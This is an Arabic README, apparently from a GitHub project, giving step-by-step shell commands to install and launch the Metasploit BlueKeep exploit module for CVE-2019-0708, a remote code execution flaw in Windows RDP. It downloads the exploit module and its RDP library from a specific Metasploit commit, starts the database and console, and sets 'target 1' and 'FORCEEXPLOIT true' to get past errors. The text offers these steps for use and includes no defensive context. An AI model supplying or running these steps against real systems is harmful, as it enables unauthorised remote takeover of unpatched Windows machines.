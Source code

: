# bluekeep
CVE- 2019-0708 هذه هي ثغرة الارديبي الاخيرة رقمها 
للثغرة عدة مشاكل ولغاية لحظة بدء هذا المشروع لم يقوم رابد7 الى الان بوضعها في تحديثات الميتا سبلويت وهذا الاصدر فيها عدة مشاكل


طريقة تنصيب بسيطة يجب ان تقوم بتحديث الميتا سبلويت الى اخر اصدار عن  طريق جميع هذه الاوامر
msfupdate

apt-get update

apt-get upgrade


ثم تنفيذ الاوامر الاتية

cd cd /usr/share/metasploit-framework/lib/msf/core/exploit/


rm rdp.rb

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/lib/msf/core/exploit/rdp.rb
mkdir /usr/share/metasploit-framework/modules/exploits/windows/rdp/

cd /usr/share/metasploit-framework/modules/exploits/windows/rdp/

wget https://raw.githubusercontent.com/rapid7/metasploit-framework/edb7e20221e2088497d1f61132db3a56f81b8ce9/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb


الان تم التنصيب يجب اعادة تشغيل قواعدالبيانات وتشغيل الميتا سبلويت لاستخدمها عن طريق الاوامر الاتية 
service postgresql start

msfdb init 

msfconsole


الان بعض الاوامر المهمة لدخول للثغرة واستخدامها
set target 1

set FORCEEXPLOIT true



هذه هي اهم الاوامر المهمة بعد الدخول للثغرة لتفادي بعض الاخطاء

